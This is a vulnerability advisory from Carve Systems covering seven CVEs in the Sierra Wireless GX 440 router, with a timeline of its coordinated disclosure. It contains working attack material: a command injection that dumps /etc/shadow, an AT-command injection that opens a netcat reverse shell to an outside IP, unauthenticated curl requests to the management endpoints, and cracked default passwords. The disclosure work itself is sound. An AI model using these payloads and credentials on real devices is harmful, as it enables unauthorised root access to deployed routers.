 # June 2016 Sierra Wireless Advisory

Sierra Wireless customers can find more details about the products affected by these issues and workarounds on the Sierra Wireless site. Customers will need to authenticate before downloading content.

Carve Systems consultants performed, and continue to perform, research on a number of IoT devices. The Carve Systems team coordiantes its disclosure with vendors when at all possible. This advisory is for the Sierra GX 440. In 2015 the consultants performed research against the GX 440 running the 4.3.2a.010 version of the firmware. The consultants discovered numerous security findings and disclosed these findings to the vendor.

This advisory covers seven CVEs (details pending):

- [CVE-2016-5065](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5065)
- [CVE-2016-5066](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5066)
- [CVE-2016-5067](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5067)
- [CVE-2016-5068](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5068)
- [CVE-2016-5069](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5069)
- [CVE-2016-5070](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5070)
- [CVE-2016-5071](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5071)

Disclosure Timeline

- 3/11/16 – Initial contact email sent to vendor.
- 4/5/16 – Disclosure to CERT/CC (VU#829752).
- 4/7/16 – CERT/CC communicates findings to Sierra. Projected disclosure date is 5/13/16.
- 4/15/16 – CERT/CC indicates that Sierra would like to work directly with Carve. Introduction email.
- 4/15/16 to 5/3/16 – Carve communicates additional details to Sierra. Sierra and Carve work together to understand which vulnerabilities have already been patched in newer release.
- 5/11/16 – Carve/Sierra mutually agree to delay publication until 5/31/16.
- 6/9/16 – Coordinated public disclosure.

Original Advisory Content

Below is the original advisory provided to Sierra Wireless.

Affected System Configuration

Sierra GX 440 in its default configuration. Affected versions: ALEOS firmware 4.3.2 - Current (as of June 2016).

Vulnerability Description

This disclosure covers distinct vulnerabilities, enumerated below:

1.  Command injection in management web application
2.  Weak passwords are easily recovered
3.  Command injection via AT interface
4.  Lack of authentication in the management web application
5.  Weak session tokens in management web application
6.  Plaintext application password storage
7.  Management web application runs as root.

1. COMMAND INJECTION IN MANAGEMENT WEB APPLICATION

The management web application has a command injection vulnerability at
the following URL:

    curl -i -s -k  -X 'POST' -H 'Content-Type: text/xml; charset=UTF-8' \
    --data-binary $'5025=Data To Store' \
    'http://management_server_lan_ip:9191/Embedded_Ace_Set_Task.cgi'

The 5025 parameter is command injectable. Entering
5025=data;cat${IFS}/etc/shadow${IFS}>>/mnt/hda1/junxion/log/messages for
the data parameter causes the system to put the contents of the shadow
file into the log file, viewable in the management web application.

2. WEAK PASSWORDS ARE EASILY RECOVERED

The firmware is shipped with weak default passwords. A password cracker
was able to trivially recover the following passwords:

  admin:2222:10957:0:99999:7:::
  rauser:12345:15409:0:99999:7:::
  user:12345:13666:0:::::
  sconsole:12345:13666:0:::::

The passwords were usable to gain root access to the system directly via
telnet.

3. COMMAND INJECTION VIA AT INTERFACE

The device provided an authenticated (via simple password) "Hayes AT"
style command interface suffers from command injection. The AT
interface, accessible via a plain text TCP client, such as netcat,
socat, or telnet, can set parameters.

At least one parameter was identified to be vulnerable to command
injection.

   AT*HOSTUID=yes;sleep${IFS}120;nc${IFS}192.168.17.100:9001${IFS}-e${IFS}/bin/sh

The above injection parameter launches a remote shell to the specified
IP address, 192.168.17.100, in this case, upon system reboot. This
enabled the researchers to gain root access to the device. This is
complicated by the prevalence of devices using ALEOS that have default
passwords, making it more likely an attacker can exploit this
vulnerability.

4. LACK OF AUTHENTICATION IN THE MANAGEMENT WEB APPLICATION

The researchers observed that raw HTTP requests to the HTTP end points
responsible for setting and saving data in the management web
application did not require authentication. An attacker can get or set
any data parameter in the application, including the management web
application password.

   curl -i -s -k  -X 'POST' -H 'Content-Type: text/xml; charset=UTF-8' --data-binary $'5003'
   'http://192.168.13.31:9191/Embedded_Ace_Get_Task.cgi'

The attacker can then use COMMAND INJECTION IN MANAGEMENT WEB
APPLICATION to gain privileged root/shell access to the device.

5. WEAK SESSION TOKENS IN MANAGEMENT WEB APPLICATION

The application derived the session token by using a very weak
permutation of the current time and the users password. The session
token was trivially reversible.

Additionally, the session token was stored in the URL. It used a simple
integer array and basic arithmetic to "obfuscate" the password using
JavaScript. This "session token" is all that was required to access the
management web application.

6. PLAINTEXT APPLICATION PASSWORD STORAGE

The device stored the management web application password in plain text
on flash storage.

7. MANAGEMENT WEB APPLICATION RUNS AS ROOT

The management web application runs as root. Best practice dictates
daemons execute following the principle of least privilege. In this case
the command injection from issue 1. COMMAND INJECTION IN MANAGEMENT WEB
APPLICATION allows for much easier compromise of the device as a whole.
Sierra devices, by default, do not expose the administrative web
application. However, if these administrative web applications are ever
exposed this issue makes it much easier for an attacker to completely
compromise the device in conjunction with other vulnerabilities.


How was this vulnerability found

These vulnerabilities were discovered using standard reverse engineering
and penetration tools:

-   HTTP MiTM Proxies
-   Hex editors
-   ARM Disassemblers
-   Text editors
-   Texas Instruments TI-89 Graphing Calculator

Vulnerability impact

Although these vulnerabilities were discovered on a specific device, the
Sierra GX 440, the vulnerabilities are generally applicable to the ALEOS
platform, which is in very wide deployment on numerous Sierra devices.

1.  A malicious attacker can use these vulnerabilities to freely gain
root access to devices they control.
2.  An attacker can use some of these vulnerabilities to compromise and
gain root access devices with weak or default configuration.
3.  An attacker can easily compromise devices it has local, but
non-physical access using these vulnerabilities.

